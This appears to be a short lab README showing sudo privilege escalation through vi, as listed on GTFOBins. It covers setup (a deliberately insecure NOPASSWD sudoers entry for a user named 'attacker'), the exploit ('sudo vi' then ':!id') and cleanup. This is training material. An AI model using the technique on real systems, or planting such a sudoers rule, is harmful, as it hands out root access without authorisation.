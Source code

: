 # Setup

```sh
# root
cp /etc/sudoers /etc/sudoers.bak
adduser attacker
echo "attacker ALL=(ALL) NOPASSWD: /usr/bin/vi" >> /etc/sudoers
```

# Exploit

```bash
sudo vi
:!id
```

# Clean Up

```bash
deluser attacker --remove-home
cp /etc/sudoers.bak /etc/sudoers
```

# references

https://gtfobins.github.io